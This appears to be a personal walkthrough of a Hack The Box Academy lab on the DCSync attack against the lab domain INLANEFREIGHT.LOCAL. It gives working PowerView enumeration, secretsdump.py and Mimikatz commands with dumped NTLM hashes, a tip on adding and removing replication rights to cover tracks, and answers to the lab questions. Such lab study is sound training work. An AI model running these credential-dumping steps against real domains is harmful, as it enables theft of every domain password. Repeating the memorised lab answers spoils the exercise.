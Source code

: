 # DCSync

So we remember that `adunn` has DCSync privileges in the INLANEFREIGHT.LOCAL domain.

{% hint style="success" %}
DCSync is a technique for stealing the Active Directory password database by using the built-in `Directory Replication Service Remote Protocol`, which is used by Domain Controllers to replicate domain data. This allows an attacker to mimic a Domain Controller to retrieve user NTLM password hashes.

The crux of the attack is requesting a Domain Controller to replicate passwords via the `DS-Replication-Get-Changes-All` extended right. This is an extended access control right within AD, which allows for the replication of secret data.

To perform this attack, you must have control over an account that has the rights to perform domain replication (a user with the Replicating Directory Changes and Replicating Directory Changes All permissions set). Domain/Enterprise Admins and default domain administrators have this right by default.
{% endhint %}

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption><p><strong>adunn's Replication Privileges</strong></p></figcaption></figure>

**Using Get-DomainUser to View adunn's Group Membership**

```sh
PS C:\htb> Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl

<SNIP>

objectsid          : S-1-5-21-3842939050-3880317879-2865463114-1164
```

Now that we have the sid of the user we can search specifically for replication rights and check if our user `adunn` possesses these rights

```sh
PS C:\htb> $sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
PS C:\htb> Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```

<figure><img src="../../../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

If we had certain rights over the user (such as [WriteDacl](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#writedacl)), we could also add this privilege to a user under our control, execute the DCSync attack, and then remove the privileges to attempt to cover our tracks.

{% hint style="info" %}
DCSync replication can be performed using tools such as Mimikatz, Invoke-DCSync, and Impacket’s secretsdump.py
{% endhint %}

**Extracting NTLM Hashes and Kerberos Keys Using secretsdump.py**

```shell-session
ElFelixi0@htb[/htb]$ secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 
```

We can use the `-just-dc-ntlm` flag if we only want NTLM hashes or specify `-just-dc-user <USERNAME>` to only extract data for a specific user.

**Viewing an Account with Reversible Encryption Password Storage Set**

<figure><img src="../../../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

When this option is set on a user account the passwords are stored using RC4 encryption. The trick here is that the key needed to decrypt them is stored in the registry (the [Syskey](https://docs.microsoft.com/en-us/windows-server/security/kerberos/system-key-utility-technical-overview)) and can be extracted by a Domain Admin or equivalent. Tools such as `secretsdump.py` will decrypt any passwords stored using reversible encryption while dumping the NTDS file either as a Domain Admin or using an attack such as DCSync. We can enumerate this using the `Get-ADUser` cmdlet:

```powershell-session
PS C:\htb> Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl

DistinguishedName  : CN=PROXYAGENT,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
<SNIP>
```

**Checking for Reversible Encryption Option using Get-DomainUser**

```powershell-session
PS C:\htb> Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol

samaccountname                         useraccountcontrol
--------------                         ------------------
proxyagent     ENCRYPTED_TEXT_PWD_ALLOWED, NORMAL_ACCOUNT
```

then we wan read the password just like this ->

```shell-session
ElFelixi0@htb[/htb]$ cat inlanefreight_hashes.ntds.cleartext 
```

We can perform the attack with Mimikatz as well. Using Mimikatz, we must target a specific user. Here we will target the built-in administrator account. We could also target the `krbtgt` account and use this to create a `Golden Ticket` for persistence, but that is outside the scope of this module.

Also it is important to note that Mimikatz must be ran in the context of the user who has DCSync privileges. We can utilize `runas.exe` to accomplish this:

```cmd-session
C:\Windows\system32>runas /netonly /user:INLANEFREIGHT\adunn powershell
```

This will spawn a shell for us, in this new shell we can run mimikatz ->

```powershell
PS C:\htb> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'INLANEFREIGHT\administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : administrator
User Principal Name  : administrator@inlanefreight.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 10/27/2021 6:49:32 AM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 88ad09182de639ccc6579eb0849751cf

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 4625fd0c31368ff4c255a3b876eaac3d

<SNIP>

```

***

_**Perform a DCSync attack and look for another user with the option "Store password using reversible encryption" set. Submit the username as your answer.**_

<figure><img src="../../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

_**What is this user's cleartext password?**_

after ssh to htb-student on through RDP like said at the beginning at the course ->

```
secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5
```

<figure><img src="../../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

_**Perform a DCSync attack and submit the NTLM hash for the khartsfield user as your answer.**_

<figure><img src="../../../../.gitbook/assets/image (11).png" alt=""><figcaption><p>4bb3b317845f0954200a6b0acc9b9f9a</p></figcaption></figure>
